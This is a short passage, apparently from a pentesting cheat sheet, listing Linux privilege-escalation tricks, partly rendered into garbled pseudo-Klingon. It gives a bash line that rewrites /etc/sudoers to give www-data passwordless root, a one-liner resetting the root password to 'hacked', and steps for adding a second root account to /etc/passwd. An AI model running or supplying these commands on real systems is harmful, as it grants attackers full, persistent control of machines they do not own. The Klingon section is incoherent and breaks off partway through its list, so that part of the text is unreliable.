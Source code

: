 
## Scripts

root qachDaq 'oH ghaH?

### **www-data to sudoers**
```bash
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```
### **Qa'legh 'ej root password**
```bash
echo "root:hacked" | chpasswd
```
### Add new root user to /etc/passwd

#### English:

To add a new root user to the `/etc/passwd` file, you can follow these steps:

1. Open the `/etc/passwd` file using a text editor.
2. Locate the line that starts with `root` and copy it.
3. Paste the copied line at the end of the file.
4. Modify the username and user ID (UID) of the new root user as desired.
5. Save the changes and exit the text editor.

Please note that modifying system files like `/etc/passwd` can have serious consequences, and it should only be done with proper authorization and understanding of the potential risks involved.

#### Klingon:

`/etc/passwd` file vItlhutlh root user chelwI' chaw'bej:

1. Text editor vItlhutlh `/etc/passwd` file.
2. 'root' jatlhlaHbe' line vItlhutlh je.
3. line vItlhutlh vItlhutlh file pIm.
4. username je je user ID (UID) vItlhutlh root user.